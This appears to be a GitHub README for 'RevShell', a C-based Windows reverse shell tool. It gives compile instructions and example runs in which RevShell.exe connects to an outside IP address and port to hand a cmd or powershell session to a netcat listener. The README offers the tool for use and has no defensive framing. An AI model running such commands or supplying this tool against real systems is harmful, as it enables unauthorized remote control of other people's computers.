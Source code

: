 # RevShell

## Description
This is a simple C-based reverse shell used to open a _cmd_ or _powershell_ session from Windows to Linux/Windows/OSx.

## Features
- [x] Open a reverse shell using cmd.exe
- [x] Open a reverse shell using powershell.exe

## How To Compile The Code
1. Download and install VisualStudio 2019 - Community Edition
2. Clone this repository to a local folder
3. Open the file "RevShell.sln"
4. Press F6 to compile the code
5. Enjoy :)

## Examples
Before starting the executable make sure you have started a listener on your favorite (Linux) distribution. I use netcat on Kali Linux.

> Open a cmd session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a cmd session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 cmd
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a powershell session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 powershell
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

![RevShell.exe in action](https://github.com/AleDiBen/RevShell/blob/master/example.png)\
_RevShell.exe in action._
